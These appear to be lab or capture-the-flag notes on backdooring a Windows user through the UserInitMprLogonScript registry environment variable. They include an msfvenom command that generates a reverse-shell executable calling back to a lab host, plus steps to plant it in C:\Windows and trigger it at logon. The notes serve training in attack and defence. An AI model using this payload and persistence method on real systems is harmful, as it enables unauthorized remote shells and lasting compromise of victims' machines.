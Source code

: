 - One of the things `userinit.exe` does while loading your user profile is to ***check*** for an `environment variable` called **UserinitMprLogonScript**.
- We can use this environment variable to assign a logon script to a user that will get run when logging into the machine.
- The variable isn't set by default, so we can just create it and assign any script we like.

		- So the Windows system checks whether in the users registry, the `UserInitMprLogonScript` exists and if it does, executes the binary path associated to it otherwise, ignores it?

- **Notice that each user has its own environment variables; therefore, you will need to backdoor each `separately`*.*

##### 1. Create a reverse shell for this technique:
`$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.65.100 LPORT=4453 -f exe -o revshell4.exe`

![](/assets/img/Pasted image 20230108002936.png)

##### 2. Transfer the payload to the victim's machine and place it at `C:\Windows`:

![](/assets/img/Pasted image 20230108003459.png)

![](/assets/img/Pasted image 20230108003513.png)

![](/assets/img/Pasted image 20230108003548.png)

##### 3. Creating an environment variable for a user, you can go to its `HKCU\Environment`in the registry.

![](/assets/img/Pasted image 20230108003854.png)

**Note**: This registry key has NO equivalent in `HKLM`, making your backdoor apply to the `current user ONLY`.

###### NOTE: DON'T USE PSEXEC TO OPEN REGEDIT. IT WILL USE THE NT AUTHORITY/SYSTEM as its user so the user you will get persistence in and not the user you are currently logged on.

**Checking if the environment variable is really there:

![](/assets/img/Pasted image 20230108005251.png)

	- It is not! What can we do at this point? This is because I tried to modify the regedit using psexec which modifies the regedit of NT AUTHORITY/SYSTEM user.

- Check again:

![](/assets/img/Pasted image 20230108005726.png)

	-The created environment variable is there!

##### 4. Triggering the payload by signing out and in again and get the flag:

